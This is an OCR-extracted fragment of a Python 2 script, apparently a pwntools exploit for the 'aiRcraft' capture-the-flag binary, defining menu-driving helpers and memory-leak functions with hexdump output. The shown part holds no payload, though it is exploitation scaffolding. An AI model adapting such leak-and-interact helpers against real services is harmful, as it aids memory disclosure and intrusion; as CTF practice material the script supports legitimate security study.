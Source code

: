 ```python
	if DEBUG: print recv

	if len(name) == n:
		p.send(name)
	else:
		p.sendline(name)
	recv = p.recv()
	if DEBUG: print recv

def fn_enter_airport(idx, n_menu, ret=False):
	p.sendline("3")
	recv = p.recv()
	if DEBUG: print recv

	p.sendline(str(idx))
	recv = p.recv()
	if DEBUG: print recv

	# 1 : list all
	# 2 : sell the airport
	p.sendline(str(n_menu))
	data = p.recv().split("\x0a")
	if DEBUG: print data

	if n_menu == 1:
		p.sendline("3")

	if ret: return data

def fn_select_plane(name, n_menu, n_airport=0):
	p.sendline("4")
	recv = p.recv()
	if DEBUG: print recv

	p.sendline(name)
	recv = p.recv()
	if DEBUG: print recv

	p.sendline(str(n_menu))

	if n_menu == 1:
		recv = p.recv()
		if DEBUG: print recv

		p.sendline(str(n_airport))
		recv = p.recv()
		if DEBUG: print recv

		p.sendline("3")
		recv = p.recv()
		if DEBUG: print recv

def fn_leak(list_leak):
	for t in list_leak:
		print "*** {} : {} ***".format(hex(t["addr"]), t["title"])
		print hexdump(p.leak(t["addr"], t["size"]))

def fn_leak_one(addr, size, title=""):
	print "*** {} : {} ***".format(hex(addr), title)
	print hexdump(p.leak(addr, size))


target = "./aiRcraft"
```